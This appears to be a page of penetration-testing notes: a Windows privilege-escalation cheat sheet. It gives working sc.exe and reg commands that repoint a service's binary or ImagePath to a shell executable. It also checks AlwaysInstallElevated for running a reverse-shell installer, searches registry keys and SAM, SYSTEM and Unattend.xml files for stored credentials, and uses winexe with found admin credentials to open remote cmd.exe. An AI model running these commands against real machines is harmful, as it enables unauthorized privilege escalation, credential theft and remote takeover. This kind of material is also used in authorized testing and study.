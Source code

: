 * sc.exe

```
# Query service configuration
# Verify after doing all the changes
sc qc svc

# Current state of the service
sc query svc

# Modify config
sc config svc binpath= "\"C:\Downloads\shell.exe\""

# if dependencies exist
sc config depend_svc start= auto
net start depend_svc
net start svc

# can instead remove dependency too
sc config svc depend= ""

# Start/stop the service
net start/stop svc
```

* Registry

```
# Query configuration of registry entry of the service
reg query HKLM\System\CurrentControlSet\Services\svc_name

# Point the ImagePath to malicious executable
reg add HKLM\SYSTEM\CurrentControlSet\services\svc_name /v ImagePath /t REG_EXPAND_SZ /d C:\path\shell.exe /f

# Start/stop the service to get the shell
net start/stop svc

# Execute a reverse_shell.msi as admin
# Manually, both query's output should be 0x1 to exploit
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

* Credentials or Hashes

```
Look for passwords


Windows NT Operating Systems up to Windows 2003 store LM and NTLM password hashes
Windows Vista and onwards disables LM by default and uses NTLM while NTLM hashes are unsalted

# Common creds location, always in plaintext
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# If found, prints the location of the file
dir /s <filename> # or extensions
dir /s SAM
dir /s SYSTEM
dir /s Unattend.xml

# Found creds?
# On KALI
# --system only works if admin creds are on hand
winexe -U 'admin%pass123' [--system] //10.10.10.10 cmd.exe
```